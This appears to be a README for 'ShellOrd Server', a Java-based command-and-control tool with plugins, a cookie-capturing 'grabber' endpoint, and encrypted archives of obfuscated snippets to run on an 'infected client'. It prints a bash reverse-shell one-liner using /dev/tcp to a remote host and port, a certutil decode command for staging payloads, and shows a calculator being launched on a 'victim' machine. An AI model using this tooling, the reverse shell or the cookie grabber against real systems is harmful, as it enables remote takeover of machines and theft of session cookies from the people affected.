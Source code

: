 🐚 ShellOrd Server Cross-Platform written in Java

- Plugins: A collection of plugins. (.jar or .py). 

## Requirements

- Python plugins requires Jython Standalone 2.7.2.
- ShellOrd Server requires Java 11+.

## Bypass localhost + capture requests

https://shellord.mibaltoalex.com:60443

shellord.mibaltoalex.com => 127.0.0.1

## Grabber requests (GET / POST)

https://shellord.mibaltoalex.com:60443/grabber/info?cookie=captured

`2022-03-12 11:08:20.842 SHELLORD::grabber: Request captured: 'Host: 127.0.0.1 ; GET /info?cookie=captured`

## Web server - Login

![shellord-login](../_img/shellord-login.gif)

## Snippets

All snippets are packed, compressed and encrypted in `.mar` (MAR; MIBALTOALEX ARchive) files.
A snippet can contain URIs, binary code, scripts (bash, powershell, etc) and plain text (.c, .py, .java, .rs, .sh, .rb, .bat, .txt, ...).

Allows you to run any obfuscated snippet on the infected client.

Example to use parameters in snippets: 
```bash
# bash
bash -c 'exec bash -i &>/dev/tcp/~[[rhost]]/~[[rport]] <&1'
```
```powershell
# powershell
certutil -decode ~[[file_input]] ~[[file_output]]
```

### Example

Example launch calculator on victim (Windows)

![shellord-calc](../_img/shellord_calc.gif)

